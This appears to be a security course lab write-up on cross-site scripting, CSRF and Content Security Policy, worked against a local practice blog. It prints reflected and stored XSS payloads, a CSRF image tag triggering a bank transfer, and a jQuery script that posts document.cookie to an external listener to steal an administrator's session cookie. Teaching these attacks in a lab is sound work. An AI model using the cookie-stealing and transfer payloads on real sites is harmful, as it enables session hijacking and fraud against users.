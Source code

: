 # XSS and CORS

## Environment setup

After setting the app, installing the requirments, etc. We open the browser one in normal mode and
the other in incognito mode. The Admin will be in the normal and the attacker in the incognito.
We will know proceed into making a couple of attacks to the website.

Access the site in the URL **http://aula3:6543**

## Cross-Site Scripting

### Reflected XSS Attack

In this type of attack it is assumed that the attack is non-persistent. With this attack it becomes
possible to manipulate the browser Document Object Model (DOM) for a single user, or multiple which
access a page through the same specially crafted **URL** depicts a typical scenario.

#### How to do it in our Website:

Using the Blog Search bar, which searches directly using the website, we can pass:
```
<script>alert("You are under attack")</script>
```
Because we are passing a script tag, the site will interpert it as being part of the code and will
execute it (alert is not the best for attackers but shows well what happens).

URL generated: `http://aula3:6543/search?q=%3Cscript%3Ealert%28%22You+are+under+attack%22%29%3C%2Fscript%3E`

### Stored XSS Attack

It allows an attacker to place malicious script (Javascript) into a webpage. Victms that
access the website will render all the scripts, including the injected one.
Common in a place where the information is shared between users through web technologies
(e.g. forums and blogs).This way the attacker composes a message, hides some script in its source
code, and puts it in place, which is accessed by a victim. All users visiting that place would
execute the exploit.
There are 2 types of **Stored XSS Attack**, **Server Side** and **Client Side**.

#### Server Side

The payload must be included in the web page when the page is built by the server.

#### Client Side

Loads dynamic content into the web page using JS. `<script>` tags are not evaluated directly,
but JS can be included in objects event handlers (e.g. onload, onclick).

#### How to do it in our Website:

* Server Side:
As we can see in our website there is a place where people can comment on a blog. This comment
is stored in the code and loads when the page loads.
The name tag does not let us execute a XSS atack but the comment does.
We put whtever name we want and make a comment like:
```
<script>alert("Loading Virus...")</script>
```
Every user that loads the page will receive this alert.

* Client Side:

Using the same principle as the last one, but using a `<button>` yag this time, we can execute
a Client Side attack.
On the comment put:
```
<button type="button" onclick="alert('You should not have clicked!')">Click Me!</button>
```
Once again any user that cicks the button will suffer the exploit.

### CSRF Attack

The Cross-Site Request Forgery, CSRF, attack consists in injecting code that, using the
credentials and capabilities of the browser viewing a given object, may attack another
system. This attack can be used for simple Denial of Service (DoS) or Distributed Denial
of Service (DDoS), tracking users, or invoke requests on systems with the identity of
the victim.

This exploits the fact that, for usability, functionality, and performance purposes,
systems cache authentication credentials in small tokens named **cookies**.
When a user accesses a service, such as a social sharing application,
or a Online Banking solution, a session is initialized, and will be kept valid for a long
period. Even if the user abandons the webpage. However, if the user visits another page
which has a CSRF exploit, targeting the first page, it is possible to invoke services
using the user identity, without his knowledge. This attack is frequently don using the
`<img>` tag, however other tags can be used.

As an example, consider that a forum post contains the following content:
```
Totally legit message :)
<img src='https://vulnerable-bank.com/transfer.jsp?amount=1000&to_nib=12345300033233'></img>
```
When the browser tries to load the image, it will invoke an action to an external server.
In this hypothetical case, it would transfer funds from the victims bank account to the
attacker's bank account.

Sometimes a more complex interaction is required, and the attack will actually inject JS code:
```
$.ajax({
url: 'http://external:8000/cookie',
type: 'POST',
data: "username=Administrator&cookie=" + document.cookie,
});
```

#### Exercise:
-	1) Navigate to the directory where we dumped our downloaded package
-	2) Run the script **hacker_server.py**
-	3) Do a POST to **http://localhost:8000**

This script will dump to **stdout** all data that is posted to it (using HyperText
Transfer Protocol (HTTP) POST).

Following the last exercise, we already know that we can inject  `<script>` tags
into a post's page by creating a comment and putting some code into the
Description field. So, by including the following code into the comment:
```
<script>
	$.ajax({
	        url: 'http://localhost:8000/cookie',
		type: 'POST',
		data: "username=Administrator;cookie=a"+document.cookie,
	})
</script>
```

As we can see in the running **hacker_server** we have received the Administrator
Session Cookie.

## Content Security Policy

It is a way to protect a website from injection of malicious code. This does not stop all types of
XSS, but it is on of the most important steps. For more protection it should be combined with CORS,
described in the next section.

The objective is to define what content can be present in the HTML, or how it is handled by the
browser. HTML Content Policy makes use of the headers that specify how the browser should load
and execute resources. The most important is **Content-Security-Policy**, which specifies a set
of rules for content. **content-security-policy.com** 















